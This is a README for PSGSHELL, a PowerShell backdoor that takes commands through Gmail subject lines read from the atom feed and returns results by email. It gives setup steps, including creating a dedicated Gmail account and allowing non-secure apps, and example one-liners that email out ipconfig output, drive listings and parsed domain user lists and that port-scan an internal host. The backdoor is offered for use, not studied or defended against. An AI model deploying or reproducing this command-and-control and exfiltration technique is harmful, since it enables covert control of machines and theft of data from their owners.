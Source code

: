 # PSGSHELL

Setup:
Create a new gmail account for this and only this.
Allow non-secure apps

Both Scripts require that you set the email address and password variables at the top of the newly created gmail account.

Built for Powershell 2.0 (Win7) 

syntax is: 
To Return Output:

commander.ps1 '$variable = powershell oneliner; sendemail $variable ~host:host:host'

Without Returning output:

commander.ps1 'powershell oneliner ~host:host:host'


Examples: All One Liner commands

# Get IP address
.\commander.ps1 '$var = ipconfig /all; sendemail $var ~123434'

# List C drive contents and send them back to email
.\commander.ps1 '$var = get-childitem c:\; sendmail $var ~123434'

#port scan a host
.\commander.ps1 '$var = 1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "$_ is open"; sendemail $var ~123434'

# Get domain users (Net user /domain) but parsed for powershell output
.\commander.ps1 '$output = net user /domain;$output = $output[6..($output.length-3)];$output = $output -split "\s+" ;$output = $output | ? {$_}; sendemail $output ~123434'

# How it Works
This script utilizes the GMAIL rss feed "https://mail.google.com/mail/feed/atom" and parses the subject lines of the emails. 
The '~' is the delimiter between the powershell command at the front of the subject and the client names at the end.

.\commander.ps1 '$var = ipconfig /all; sendemail $var ~123434:343454:32233'

Currently the script accepts a single input that is the PS ONELINER, an optional sendmail, followed by the '~' and then $client_names which there can be multiple but should be seperated by colons.
PSGSHELL.ps1 is the client or backdoor
commander.ps1 is a script that sends the commands to the inbox (very simple)